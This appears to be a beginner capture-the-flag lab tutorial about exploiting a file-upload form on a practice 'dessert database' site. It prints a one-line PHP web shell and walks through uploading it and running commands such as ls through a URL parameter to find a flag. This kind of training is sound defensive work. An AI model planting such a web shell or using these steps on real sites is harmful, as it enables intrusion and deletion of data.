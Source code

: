 # Dessert Database File Upload Exploitation
This page will help you learn how Alice and Bob's dessert database works
and help you hack into it just like those L33k3ers!

![USA Cake](https://d213sdapb08052.cloudfront.net/assets/recipes/flag-cake/_ogImage/IMG_1153.jpeg?mtime=20200521120223)

## Lets Begin
First, lets begin by going to the database itself...
> <a href="http://desserts.gel.webfactional.com/" target="_blank">DATABASE</a>

Here you will see the option to upload a picture of your favorite dessert!

Go ahead, find a picture of your favorite dessert, download the image to your computer, then upload!

Cool right?

Now here is the part that Alice and Bob want you to pay close attention to...

## Exploit
We want you to download this file below...

> <a href="https://udel.codes/cyber2/Hack.php" target="_blank">Hacky File</a>

The contents of this file are the following

`<? print_r(system($_GET['cmd'])); ?>`

What this line of code does is it allows for us to inject (enter) bash commands into the url. The Bash commands
that you can type are the same commands that you learned yesterday in the bash tutorial!

These bash commands can do all types of malicious things such as go list all the files the website contains, delete files, ect. So,
they L33k3rs must have used bash commands to put the picutres of the leeks all over our database!

**But we won't be deleting files cause we are not the L33k3ers!**

Now that you know what the file we just downloaded does, upload that file just as you did with your dessert image

Once you do that, you will be directed to a page that says 
> We got your cake image: /cakes/Hack.php

**With a little image underneath**

**Right click** on this image and select, **"Open Image in new Tab"**

Once at the new webpage, go to the url and at the very end put this statement...

`?cmd=ls`

Hit enter, and now you see a list of all the files that the website contains! Crazy right! 

The command that is executed is directly after the `=`, so like we learned in the bash tutorial, `ls` prints all the contents of a directory. Now, find the **flag!**

## You are truly becoming an expert!

You are getting better with every exercise, Bob and Alice are proud and present you with this badge. Throw it on your website to mark your accomplishments!

![Dessert Exploitation](https://udel.codes/cyber2/Dessert_Exploitation.png)







